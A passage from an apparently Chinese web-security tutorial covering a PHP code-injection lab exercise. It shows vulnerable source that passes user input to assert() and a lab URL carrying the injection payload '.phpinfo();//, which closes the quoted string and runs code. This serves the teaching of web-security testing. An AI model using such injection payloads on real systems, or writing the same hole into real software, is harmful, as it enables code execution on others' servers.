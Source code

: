 [![](assets/1704850598-e315f75a58d5239f0ee9bb06e9a7b03c.png)](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/IOFYm2EysZgPM2jG.png)

### 2.1.8 Code injection Example 4

仅去除收尾的空白字符，进行闭合即可

```bash
assert(trim("'".$_GET['name']."'"));
echo "Hello ".htmlentities($_GET['name']);
```

[http://192.168.245.131/codeexec/example4.php?name=%27.phpinfo();//](http://192.168.245.131/codeexec/example4.php?name=%27.phpinfo();//)  